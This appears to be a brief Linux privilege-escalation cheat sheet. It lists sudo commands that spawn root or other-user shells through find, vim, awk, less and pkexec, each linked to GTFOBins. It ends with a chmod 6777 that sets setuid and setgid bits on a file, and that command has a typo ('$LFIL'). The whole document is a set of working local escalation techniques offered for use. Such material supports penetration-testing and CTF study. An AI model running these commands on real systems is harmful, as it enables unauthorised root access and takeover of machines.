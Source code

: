 ```
sudo -l
```

```
sudo -u $username /bin/bash
```

```
sudo -i
```

```
sudo su
```

```
sudo pkexec /bin/sh
```

```
sudo -u $username /usr/bin/find . -exec /bin/bash \; -quit
```

https://gtfobins.github.io/gtfobins/find/#sudo

```
sudo -u $username /usr/bin/vim -c ':!/bin/bash'
```

https://gtfobins.github.io/gtfobins/vim/#sudo

```
sudo -u $username /usr/bin/less $file
```

https://gtfobins.github.io/gtfobins/less/#sudo

```
sudo -u $username /usr/bin/awk '{print $0}' $file
```

```
sudo awk 'BEGIN {system("/bin/sh")}'
```

https://gtfobins.github.io/gtfobins/awk/#sudo

```
LFILE=file_to_change
sudo chmod 6777 $LFIL
```

https://gtfobins.github.io/gtfobins/chmod/#sudo

